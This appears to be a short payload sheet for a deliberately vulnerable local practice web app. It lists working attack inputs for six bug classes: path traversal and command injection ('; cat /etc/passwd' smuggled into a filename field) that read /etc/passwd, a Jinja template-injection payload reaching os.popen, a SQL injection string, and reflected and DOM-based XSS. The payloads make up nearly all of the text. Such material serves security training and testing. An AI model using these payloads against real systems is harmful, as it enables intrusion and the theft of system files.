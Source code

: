 1. Path traversal:

Payload:

```bash
http://127.0.0.1:5000/image?filename=/etc/passwd
```

2. File non-sanitization:

Payload:

```bash
curl -X POST \
     -d "filename=dummy.pdf; cat /etc/passwd" \
     http://127.0.0.1:5000/run-script
```

3. SSTI:

Payload:

```bash
http://127.0.0.1:5000/render?content=%7B%7Bconfig.__class__.__init__.__globals__%5B'os'%5D.popen('cat%20/etc/passwd').read()%7D%7D
```

4. SQL injection

Payload

```bash
http://127.0.0.1:5000/logs?query=1=1--
```

5. Reflected XSS

Payload

```bash
http://127.0.0.1:5000/xss?input=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E
```

6. DOM-based XSS

Payload

```bash
http://127.0.0.1:5000#<img src%3Dx onerror%3Dalert(1)>
```
